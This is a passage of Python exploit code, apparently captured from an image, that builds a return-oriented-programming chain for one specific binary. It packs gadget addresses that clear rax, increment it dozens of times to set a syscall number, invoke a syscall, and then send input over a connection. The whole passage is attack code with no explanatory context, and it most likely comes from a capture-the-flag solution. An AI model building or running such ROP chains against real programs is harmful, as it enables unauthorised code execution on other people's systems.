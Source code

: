 ```python
p += pack('<Q', 0x0000000000447339) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000402404) # syscall

io.sendline('1')
```